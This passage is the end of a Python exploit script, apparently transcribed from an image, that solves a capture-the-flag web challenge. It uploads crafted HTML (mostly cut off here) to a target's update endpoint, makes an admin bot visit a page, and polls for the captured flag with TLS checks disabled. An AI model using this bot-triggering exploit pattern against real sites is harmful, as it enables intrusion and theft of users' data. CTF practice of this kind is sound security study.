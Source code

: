 ```python
        </script>
    </head>
    <body>
        <h1>Loading...</h1>
    </body>
    </html>
    """
    
    print("[*] Updating page content...")
    try:
        requests.post(
            f"{TARGET}/update",
            data={"html": exploit_html},
            verify=False
        )
    except Exception as e:
        print(f"[-] Update failed: {str(e)}")
        return

    print(f"[*] Triggering bot with URL: http://{FLAG_HOST}:{PORT}")
    try:
        requests.post(
            f"{TARGET}/bot",
            data={"url": f"http://{FLAG_HOST}:{PORT}"},
            verify=False
        )
    except Exception as e:
        print(f"[-] Bot trigger failed: {str(e)}")
        return
    
    print("[+] Bot triggered successfully, waiting for execution...")
    time.sleep(50)  # Wait for bot completion
    
    print("[*] Checking bot status for flag...")
    try:
        response = requests.get(
            f"{TARGET}/bot/status",
            verify=False
        )
        
        # Handle both JSON and plain text responses
        try:
            data = response.json()
            if isinstance(data, str):
                print(f"[+] FLAG CAPTURED: {data}")
            else:
                print(f"[*] Bot status: {data}")
        except ValueError:
            # If not JSON, treat as plain text
            if "flag" in response.text.lower() or ".;,;." in response.text:
                print(f"[+] FLAG CAPTURED: {response.text}")
            else:
                print(f"[*] Raw response: {response.text}")
    except Exception as e:
        print(f"[-] Status check failed: {str(e)}")

if __name__ == "__main__":
    exploit()
```
